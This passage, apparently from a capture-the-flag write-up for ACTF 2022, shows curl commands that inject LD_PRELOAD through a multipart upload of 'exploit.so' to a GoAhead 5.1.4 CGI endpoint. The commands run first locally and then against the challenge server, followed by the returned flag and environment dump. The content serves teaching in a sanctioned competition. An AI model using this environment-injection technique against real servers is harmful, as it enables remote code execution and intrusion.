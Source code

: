 ```bash
curl -F LD_PRELOAD=/tmp/tmp-10.tmp -F upload=@exploit.so http://localhost:10218/cgi-bin/hello
Welcome to ACTF!

ACTF{test_flag}
...
...
...
``` 
Yeah! We get the test flag! Now we just need to exploit at the real challenge website

```bash
curl -F LD_PRELOAD=/tmp/tmp-10.tmp -F upload=@exploit.so http://123.60.84.229:10218/cgi-bin/hello
Welcome to ACTF!

ACTF{s1mple_3nv_1nj3ct1on_and_w1sh_y0u_hav3_a_g00d_tim3_1n_ACTF2022}SERVER_NAME=192.168.80.2
REMOTE_HOST=14.192.212.80
SCRIPT_NAME=/cgi-bin/hello
GATEWAY_INTERFACE=CGI/1.1
SERVER_SOFTWARE=GoAhead/5.1.4
FILE_CONTENT_TYPE_upload=application/octet-stream
PATH_INFO=
REQUEST_TRANSPORT=http
DOCUMENT_ROOT=/var/www/goahead
PWD=/var/www/goahead
HTTP_CONTENT_LENGTH=14974
REQUEST_URI=/cgi-bin/hello
PATH_TRANSLATED=
FILE_CLIENT_FILENAME_upload=exploit.so
QUERY_STRING=
SERVER_URL=0.0.0.0:8081
FILE_SIZE_upload=14656
SERVER_HOST=192.168.80.2
HTTP_ACCEPT=*/*
FILE_FILENAME_upload=/tmp/tmp-10.tmp
HTTP_HOST=123.60.84.229:10218
AUTH_TYPE=
SERVER_ADDR=192.168.80.2
HTTP_CONTENT_TYPE=multipart/form-data; boundary=------------------------f29c1fcb84900c55
HTTP_USER_AGENT=curl/7.68.0
SHLVL=1
CONTENT_LENGTH=14974
UPLOAD_DIR=/tmp
SERVER_PROTOCOL=HTTP/1.1
SERVER_PORT=8081
SCRIPT_FILENAME=/var/www/goahead/cgi-bin/hello
REMOTE_ADDR=14.192.212.80
REMOTE_USER=
HTTP_EXPECT=100-continue
CONTENT_TYPE=multipart/form-data; boundary=------------------------f29c1fcb84900c55
REQUEST_METHOD=POST
_=/usr/bin/env
```
